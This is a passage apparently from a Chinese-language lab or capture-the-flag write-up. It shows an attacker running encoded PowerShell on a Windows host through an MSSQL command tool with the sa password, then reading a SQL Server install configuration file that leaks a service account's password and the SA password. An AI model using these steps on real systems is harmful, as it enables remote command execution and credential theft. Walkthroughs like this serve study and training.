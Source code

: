 ```
[root@kali] /home/kali  
❯ ./mssql-command-tools_Linux_amd64 --host 10.10.xx.xx -u "sa" -p 'MSSQLP@ssw0rd!' -c "powershell -e yourbase64here"
```

![](./images/image-20.png)

发现一个配置文件中泄露了**sql\_svc**的信息

```
PS C:\SQL2019\ExpressAdv_ENU> cat sql-Configuration.INI
[OPTIONS]
ACTION="Install"
QUIET="True"
FEATURES=SQL
INSTANCENAME="SQLEXPRESS"
INSTANCEID="SQLEXPRESS"
RSSVCACCOUNT="NT Service\ReportServer$SQLEXPRESS"
AGTSVCACCOUNT="NT AUTHORITY\NETWORK SERVICE"
AGTSVCSTARTUPTYPE="Manual"
COMMFABRICPORT="0"
COMMFABRICNETWORKLEVEL=""0"
COMMFABRICENCRYPTION="0"
MATRIXCMBRICKCOMMPORT="0"
SQLSVCSTARTUPTYPE="Automatic"
FILESTREAMLEVEL="0"
ENABLERANU="False" 
SQLCOLLATION="SQL_Latin1_General_CP1_CI_AS"
SQLSVCACCOUNT="SEQUEL\sql_svc"
SQLSVCPASSWORD="WqSZAF6XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX"
SQLSYSADMINACCOUNTS="SEQUEL\Administrator"
SECURITYMODE="SQL"
SAPWD="MSSQLP@ssw0rd!"
ADDCURRENTUSERASSQLADMIN="False"
TCPENABLED="1"
NPENABLED="1"
BROWSERSVCSTARTUPTYPE="Automatic"
IAcceptSQLServerLicenseTerms=True
PS C:\SQL2019\ExpressAdv_ENU> 
```
